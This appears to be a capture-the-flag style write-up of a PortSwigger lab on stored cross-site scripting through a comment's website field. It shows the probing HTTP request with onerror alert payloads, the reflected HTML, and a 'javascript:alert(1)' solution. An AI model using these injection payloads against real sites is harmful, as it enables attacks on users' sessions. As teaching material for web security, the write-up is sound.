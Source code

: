 # [Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

## Lab

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

## Analysis

1. post a comment:

    ```http
    POST /post/comment HTTP/1.1

    csrf=gzVWqgoY2V6iySltTOvfyB3Ah4Hk8zDn&postId=5&comment=<img+src%3d1+onerror%3dalert(1)>&name=<img+src%3d1+onerror%3dalert(2)>&email=a%40a.a&website=<img+src%3d1+onerror%3dalert(3)>
    ```

    - observe result:

    ```html
    <section class="comment">
        <p>
        <img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="<img src=1 onerror=alert(3)>">&lt;img src=1 onerror=alert(2)&gt;</a> | 25 January 2023
        </p>
        <p>&lt;img src=1 onerror=alert(1)&gt;</p>
        <p></p>
    </section>
    ```

2. modify comment:

    ```url
    website="<img+src%3d1+onerror%3dalert(3)>
    ```

    - observe response:

    ```html
    <a id="author" href="&quot;<img src=1 onerror=alert(3)>">
    ```

## Solutions

- post a comment:

```url
website=javascript:alert(1)
```
